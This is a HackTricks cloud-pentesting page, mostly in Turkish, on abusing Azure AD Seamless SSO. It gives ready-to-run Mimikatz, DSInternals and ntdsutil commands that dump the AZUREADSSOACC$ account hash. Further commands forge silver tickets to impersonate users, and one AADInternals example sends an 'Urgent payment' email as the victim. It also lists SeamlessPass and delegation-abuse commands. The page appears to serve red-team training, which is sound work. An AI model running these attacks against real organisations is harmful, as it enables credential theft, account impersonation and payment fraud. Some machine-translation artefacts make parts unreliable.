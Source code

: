 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) otomatik olarak **kullanıcıları, kurumsal ağınıza bağlı kurumsal cihazlarında** oturum açtırır. Etkinleştirildiğinde, **kullanıcıların Azure AD'ye oturum açmak için şifrelerini girmeleri gerekmez** ve genellikle kullanıcı adlarını bile girmeleri gerekmez. Bu özellik, kullanıcılarınıza ek bir yerel bileşen gerektirmeden bulut tabanlı uygulamalarınıza kolay erişim sağlar.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Temelde Azure AD Seamless SSO, kullanıcıları **yerel bir alan etki alanına bağlı PC'de** **oturum açtırır**.

Bu, hem [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) hem de [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) tarafından desteklenmektedir.

Masaüstü SSO, kimlik doğrulama için **Kerberos** kullanmaktadır. Yapılandırıldığında, Azure AD Connect, yerel AD'de **AZUREADSSOACC`$` adında bir bilgisayar hesabı** oluşturur. `AZUREADSSOACC$` hesabının şifresi, yapılandırma sırasında **Azure AD'ye düz metin olarak gönderilir**.

**Kerberos biletleri**, şifrenin **NTHash (MD4)** kullanılarak **şifrelenir** ve Azure AD, gönderilen şifreyi biletleri şifrelerini çözmek için kullanır.

**Azure AD**, Kerberos **biletlerini** kabul eden bir **uç nokta** (https://autologon.microsoftazuread-sso.com) sunar. Alan etki alanına bağlı makinenin tarayıcısı, SSO için bu uç noktaya biletleri iletir.

### On-prem -> cloud

Kullanıcının **`AZUREADSSOACC$`** şifresi **asla değişmez**. Bu nedenle, bir alan yöneticisi bu **hesabın hash'ini** ele geçirebilir ve ardından **herhangi bir yerel kullanıcı senkronize edilmiş** Azure'a bağlanmak için **gümüş biletler** oluşturmak için kullanabilir:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Hash ile artık **gümüş biletler** oluşturabilirsiniz:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **Tarayıcıyı Başlat:** Mozilla Firefox başlatılmalıdır.
2. **Tarayıcıyı Yapılandır:**
* **`about:config`** sayfasına gidin.
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) için tercihi belirtilen [değerlere](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) ayarlayın:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Web Uygulamasına Erişim:**
* Kuruluşun AAD alanı ile entegre bir web uygulamasını ziyaret edin. Yaygın bir örnek [Office 365](https://portal.office.com/)’dir.
4. **Kimlik Doğrulama Süreci:**
* Giriş ekranında, kullanıcı adı girilmeli ve şifre alanı boş bırakılmalıdır.
* Devam etmek için TAB veya ENTER tuşuna basın.

{% hint style="success" %}
Bu, MFA etkinse atlatmaz
{% endhint %}

#### Dcsync olmadan Seçenek 2 - SeamlessPass

Bu saldırıyı **dcsync saldırısı olmadan** daha gizli bir şekilde gerçekleştirmek de mümkündür, [bu blog yazısında açıklandığı gibi](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Bunun için yalnızca aşağıdakilerden birine ihtiyacınız var:

* **Bir tehlikeye atılmış kullanıcının TGT'si:** Eğer bir tane yoksa ama kullanıcı tehlikeye atıldıysa, birçok araçta uygulanan sahte TGT delegasyonu hilesi kullanılarak bir tane elde edilebilir, örneğin [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) ve [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: KRBTGT anahtarına sahipseniz, saldırıya uğrayan kullanıcı için gerekli TGT'yi oluşturabilirsiniz.
* **Bir tehlikeye atılmış kullanıcının NTLM hash'i veya AES anahtarı:** SeamlessPass, TGT'yi oluşturmak için bu bilgi ile etki alanı denetleyicisi ile iletişim kuracaktır.
* **AZUREADSSOACC$ hesabı NTLM hash'i veya AES anahtarı:** Bu bilgi ve saldırı yapılacak kullanıcının Güvenlik Tanımlayıcısı (SID) ile bir hizmet bileti oluşturmak ve bulut ile kimlik doğrulamak mümkündür (önceki yöntemde olduğu gibi).

Son olarak, TGT ile [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) aracını kullanmak mümkündür:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Seamless SSO ile Firefox'u çalıştırmak için daha fazla bilgi [**bu blog yazısında**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) bulunabilir.

#### ~~Sadece bulut kullanıcıları için Kerberos biletleri oluşturma~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Eğer Active Directory yöneticileri Azure AD Connect'e erişime sahipse, **herhangi bir bulut kullanıcısı için SID ayarlayabilirler**. Bu şekilde Kerberos **biletleri** **sadece bulut kullanıcıları için de oluşturulabilir**. Tek gereklilik, SID'nin uygun bir [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) olmasıdır.

{% hint style="danger" %}
Sadece bulut yöneticisi kullanıcılarının SID'sini değiştirmek artık **Microsoft tarafından engellenmiştir**.\
Daha fazla bilgi için [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/) kontrol edin.
{% endhint %}

### On-prem -> Bulut üzerinden Kaynak Tabanlı Kısıtlı Delegasyon <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Bu hesabın bulunduğu konteyner veya OU'daki bilgisayar hesaplarını yönetebilen herkes, **hesap üzerinde kaynak tabanlı kısıtlı delegasyonu yapılandırabilir ve ona erişebilir**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Bulutundayım, herkesin e-postalarını okuyorum - Active Directory aracılığıyla Azure AD'yi hackleme](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
